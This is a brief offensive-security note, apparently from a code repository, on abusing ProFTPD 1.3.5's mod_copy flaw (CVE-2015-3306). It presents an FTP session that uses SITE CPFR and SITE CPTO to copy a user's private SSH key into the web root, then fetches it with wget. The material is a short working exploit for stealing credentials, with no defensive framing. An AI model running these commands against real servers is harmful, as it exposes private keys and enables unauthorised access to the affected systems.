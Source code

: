 This little hack is good for copying (blindly?) files (keys) from a 
restricted directory to another location that we may have access to, perhaps 
we mounted a remote dir via NFS or whatnot or we can just grab it via HTTP.

Permissions might be misconfigured on target files.  Some FTP servers 
don't respect permissions (CVE-2015-3306, for example)  and perhaps are 
not properly isolated (e.g. chroot).


Real Example:
```
    220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.12.255]
    site cpfr /home/joe/.ssh/id_rsa
    350 File or directory exists, ready for destination name
    site cpto /var/www/html/id_rsa
    250 Copy successful
    quit
    221 Goodbye.
```

```
   wget http://example.com/id_rsa
```
    
